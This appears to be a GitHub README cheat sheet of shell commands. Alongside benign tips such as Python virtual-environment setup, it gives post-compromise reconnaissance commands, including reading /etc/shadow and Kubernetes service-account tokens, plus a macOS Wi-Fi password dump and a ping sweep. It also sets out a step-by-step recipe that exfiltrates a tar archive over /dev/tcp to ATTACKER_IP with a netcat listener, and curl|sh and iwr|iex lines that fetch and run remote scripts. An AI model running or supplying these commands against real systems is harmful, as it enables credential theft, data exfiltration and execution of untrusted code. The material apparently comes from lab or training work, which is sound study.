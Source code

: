 # knowledge-db
Various commands, scripts and how-to documents

### Retrieve Wi-Fi Passwords on MacOS 

    security find-generic-password -ga "HomeWiFi"

### Bash Ping Sweep 🛰️
---
    subnet="192.168.1"; for ip in {1..254}; do ping -c 1 -W 1 "${subnet}.${ip}" > /dev/null 2>&1 && echo "Host ${subnet}.${ip} is up" || echo "Host ${subnet}.${ip} is down"; done

### Python Virtual Environment 🦾
---
Go to your project folder and run:

    python3 -m venv venv
    source ./venv/bin/activate
    deactivate

### Poking Around 👀
```
id
uname -a
env
df 
mount 
ps -aux 
cat /etc/mtab
docker -version
capsh —print #printCapabilities
ifconfig | grep inet
cat /etc/shadow

/var/run/secrets/kubernetes.io/serviceaccount/token
/var/run/secrets/kubernetes.io/serviceaccount/namespace
/var/run/secrets/kubernetes.io/serviceaccount/ca.crt
```

### Data Exfiltration via TCP Socket 👀
---
Exfiltrate data over TCP using data encoding. 

- attackerMachine - listen & safe
   - ```nc -lvp 8080 > /tmp/task4-creds.data```

- victimMachine - zip & convert & send via TCP
   - ```tar zcf - folderToZip/ | base64 | dd conv=ebcdic > /dev/tcp/ATTACKER_IP/8080```

- attackerMachine - convert 
   - ```dd conv=ascii if=task4-creds.data |base64 -d > task4-creds.tar```
- unzip
   - ```tar xvf task4-creds.tar```

### Cool But Insecure Way To Execute Scripts
---
Powershell

    iwr -useb https://something.com/psscript.ps1 | iex

Bash

    curl https://something.com/psscript.ps1 | sh
